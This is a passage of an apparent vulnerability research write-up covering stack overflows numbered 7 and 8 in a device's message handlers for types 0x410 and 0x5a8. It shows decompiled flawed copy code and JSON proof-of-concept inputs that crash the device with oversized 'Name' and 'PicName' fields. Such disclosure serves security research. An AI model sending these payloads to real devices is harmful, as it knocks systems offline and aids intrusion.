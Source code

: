 Here is a POC for the crash, identical to the last one:

```
{
  "Name": "aaaaaaaa ... aaaaaaaa",
  "SessionID": "0x0001869f"
}
```

## Stack Overflow 7

This one is also in the handler for *0x410*, another **strncpy** turned **strcpy** - to hit this your *Name* parameter must contain *.[*:

```
-c
  pcVar1 = strstr(param_2,".[");
  if (pcVar1 == (char *)0x0) {
    ...
  }
  else {
    memset(acStack_234,0,0x104);
                  /* buffer overflow */
    strncpy(acStack_234,param_2,(int)pcVar1 - (int)param_2);
    memset(acStack_130,0,0x104);
    strncpy(acStack_130,pcVar1,0x103);
    iVar2 = strcmp(acStack_130,".[ff]");
    if (iVar2 == 0) {
```

Similar to the last POC but including *.[*:

```
{
  "Name": "aaaaaa ... aaaaaaaa.[",
  "SessionID": "0x0001869f"
}
```

## Stack Overflow 8

I'm starting to get sick of stack overflows now! This one is in the handler for message type *0x5a8*, its another **memcpy** overflow, but the information copied is derived from string-based functions (characters between pair of square brackets) so it still isn't possible to bypass the canary with this one. It does need to pass a few calls to **sscanf** so the below pattern is required to trigger it, here is a PoC:

```
-json
{
    "OPCompressPic": {
        "PicName": "/ideA1/0000-00-00/000/00.00.00-00.00.00[aaaaaaaa ... aaaaaaaa]"
    },
    "SessionID": "0x0001869f"
}
```
